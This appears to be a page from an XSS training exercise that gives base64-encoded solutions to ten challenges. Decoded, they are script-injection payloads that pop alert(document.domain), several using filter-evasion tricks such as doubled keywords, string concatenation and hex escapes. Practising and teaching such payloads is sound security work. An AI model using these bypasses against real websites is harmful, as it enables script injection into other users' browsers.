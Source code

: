 Base64 of possible solutions.

Please try as hard as possible before looking at the possible solutionss. 

Example 3 will have payloads that require interaction and others that don't.


Example 1

```
MSUyOSU3QiU3RCU3RCUzQmFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5JTNCZnVuY3Rpb24lMjB4eXolMjglMjklN0JpZiUyMCUyODElM0QlM0QlM0Qx
```
Example 2

```
JTI3LWFsZXJ0JTI4ZG9jdW1lbnQuZG9tYWluJTI5LSUyNw==
```

Example 3 (contains at least 3 different possible payloads. Some may require user interaction)

```
amF2YXNjcmlwdCUzQWFsZXJ0JTI4MSUyOSUzQiUyMm9uY2xpY2slM0QlMjJhbGVydCUyODIlMjklMjIlM0UlM0NzY3JpcHQlM0VhbGVydCUyODMlMjklM0Mvc2NyaXB0JTNF
```

Example 4

```
JTI3JTNCJTdEJTdEJTNCYWxlcnQlMjhkb2N1bWVudC5kb21haW4lMjklM0JmdW5jdGlvbiUyMHh5eiUyOCUyOSU3QiUyMGlmJTIwJTI4MSUzRCUzRCUzRDElMjklN0IvLw==
```

Example 5

```
JTI3KmFsZXJ0JTI4ZG9jdW1lbnQlNUIlMjdkb21haW4lMjclNUQlMjkqJTI3
```

Example 6 (several solutions are possile)

```
JTI3JTJiZXZhbCglMjdhJTI3JTJiJTI3bGUlMjclMmIlMjdydCUyNyUyYiUyNyUyNyUyYiUyNyhkb2N1bSUyNyUyYiUyN2VudCUyNyUyYiUyNy4lMjclMmIlMjdkb20lMjclMmIlMjdhaW4pJTI3JTJiJTI3JTI3KSUyYiUyNw==
```
Example 7

```
JTI3KndpbmRvdyU1QiU1QiUyN2ElMjclMkMlMjdsJTI3JTVELmNvbmNhdCUyOCU1QiUyN2VyJTI3JTJDJTI3dCUyNyU1RCUyOS5qb2luJTYwJTYwJTVEJTI4ZG9jZG9jdW1lbnR1bWVudCU1QiUyN2RvbWFpbiUyNyU1RCUyOSolMjc=
```

Example 8

```
JTI3KmFsYWxlcnRlcnQlNjB4c3MlNjAqJTI3
```

Example 9

```
JTVDeDI3JTVDeDNiJTVDeDYxJTVDeDZjJTVDeDY1JTVDeDcyJTVDeDc0JTVDeDI4ZG9jdW0lNUN4NjVuJTVDeDc0JTVDeDJFZG9tJTVDeDYxaW4lNUN4MjklNUN4MmYlNUN4MmY=
```

Example 10 (read the php file)

```
cnVubWU9MSMlMjUzQ3NjcmlwdCUyNTNFYWxlcnQoZG9jdW1lbnQuZG9tYWluKSUyNTNDL3NjcmlwdCUyNTNF
```
